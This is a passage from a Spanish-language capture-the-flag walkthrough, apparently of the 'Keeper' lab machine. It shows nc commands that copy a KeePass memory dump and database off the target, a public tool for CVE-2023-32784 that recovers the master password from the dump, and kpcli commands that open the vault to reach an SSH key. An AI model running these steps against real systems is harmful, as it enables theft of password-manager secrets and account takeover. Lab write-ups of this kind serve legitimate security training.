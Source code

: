 ![[Keeper17.png]]

Y desde nuestra maquina vamos a entablar la conexion
```shell
nc 10.10.11.227 5000 > KeePassDumpFull.dmp
nc 10.10.11.227 5000 > passcodes.kdbx
```
Aclaracion: Despues de unos segundos hay que cortar la conexion con CTRL + C, por que si no queda activa

![[Keeper16.png]]

Ya tenemos los archivos en nuestra maquina

--------
# [[CVE-2023-32784]]

[Proyecto keepass_dump](https://github.com/z-jxy/keepass_dump) 
Vamos a clonar el proyecto con [[git clone]] usando el comando ``git clone https://github.com/z-jxy/keepass_dump``
![[Keeper18.png]]

Ahora vamos a mover el archivo *KeePassDumpFull.dmp* a la carpeta del proyecto con [[mv]] usando el comando ``mv ~/Desktop/Keeper/content/KeePassDumpFull.dmp .``

Ejecutamos el script
```
python3 keepass_dump.py -f KeePassDumpFull.dmp
```

![[Keeper19.png]]
Y en este caso nos dumpea la contraseña con un caracter desconocido. *{UNKNOWN}dgrd med flde*

Si buscamos esto en google nos va a aparecer
![[Keeper20.png]]
Como podemos ver podemos asumir que la contraseña es: *Rødgrød med Fløde*

---------
# Abrimos el archivo *passcodes.kdbx* con [[kpcli]]


Vamos a ejecutar el comando

```shell
kpcli --kdb passcodes.kdbx
```
Y cuando nos pida contraseña vamos a ingresar *rødgrød med fløde*

Ahora con [[ls]] listamos los directorios, vemos la carpeta passcodes, entramos con [[cd]], listamos directorios nuevamente ,y vemos la carpeta Network, entramos y hay 2 archivos, listamos el contenido del primero  y vemos que nos da una clave ssh
